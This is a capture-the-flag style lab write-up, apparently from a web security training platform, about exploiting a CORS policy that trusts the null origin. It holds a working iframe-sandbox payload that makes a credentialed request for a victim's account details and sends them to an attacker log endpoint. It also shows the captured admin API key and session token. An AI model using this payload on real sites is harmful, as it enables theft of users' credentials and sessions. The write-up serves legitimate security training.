



# **CORS vulnerability with trusted null origin**

This lab setup is similar to the first one, we have an endpoint that retrieves the api key:



So we can try changing the origin to see if we find a vulnerability.

If we modify the origin, it does not get added to the response:



So no luck there. If we set the origin as null:



It does change so we have a vulnerability.

Now we can use the JS from the previous lab to get the api key but there is an issue, we need to set the origin to null. We can do this using a combination of iframe and sandbox:

```
<html>
<body>
<iframe style="display: none;" sandbox="allow-scripts"
    srcdoc="
    <script>
      var xhr = new XMLHttpRequest();
      var url = 'https://0a3400f6046ba69dc68be1a800d100cb.web-security-academy.net/accountDetails';

      xhr.onreadystatechange = function() {
        if (xhr.readyState == XMLHttpRequest.DONE) {
          fetch('/log?key=' + btoa(xhr.responseText));
        }
      }

      xhr.open('GET', url, true);
      xhr.withCredentials = true;
      xhr.send(null);
    </script>"
>
</iframe>
</body>
</html>
```

And similar to previous lab, we have the encoded data in the logs:

```
10.0.4.249      2024-11-21 03:56:04 +0000 "GET /log?key=ewogICJ1c2VybmFtZSI6ICJhZG1pbmlzdHJhdG9yIiwKICAiZW1haWwiOiAiIiwKICAiYXBpa2V5IjogIkZBQndLSWgyOGJEa2E2WlpvRThGc2MySGpOTGluYWVGIiwKICAic2Vzc2lvbnMiOiBbCiAgICAibzF3bXF5Y0dqRmJEQ1NMRjZmYWxESjNlaDh0NTZib28iCiAgXQp9 HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

Decoded:

```
{
  "username": "administrator",
  "email": "",
  "apikey": "FABwKIh28bDka6ZZoE8Fsc2HjNLinaeF",
  "sessions": [
    "o1wmqycGjFbDCSLF6falDJ3eh8t56boo"
  ]
}
```

And it solves the lab.
